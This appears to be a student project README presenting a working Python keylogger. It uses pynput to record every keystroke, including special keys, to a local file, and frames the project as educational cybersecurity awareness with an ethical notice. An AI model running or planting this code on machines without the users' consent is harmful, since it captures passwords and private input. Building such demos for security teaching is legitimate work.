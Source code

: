 # Keylogger
## Done by : Divakar R

## AIM:
To design and implement a Python-based keylogger that records keystrokes on a computer system for educational and ethical cybersecurity purposes. The project demonstrates how attackers may exploit keylogging techniques and helps raise awareness of securing input systems.


## Problem Statement:

Keyloggers are tools used to monitor and record keystrokes entered by users on a keyboard. While they can be malicious, they are also powerful tools in cybersecurity training and ethical hacking scenarios. The challenge is to build a keylogger that:

Runs in the background

Logs both alphabetic and special keys

Stores logs to a file

Optionally can be extended for further analysis or email alerts


## Code:

```
from pynput.keyboard import Key, Listener

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f"[{key}]")  # Handle special keys like Shift, Enter

def on_release(key):
    if key == Key.esc:  # Press Esc to stop logging
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Ethical Notice:

This project is intended strictly for educational use. Unauthorized use of keyloggers is illegal and unethical. Always take user consent and use only in controlled environments.
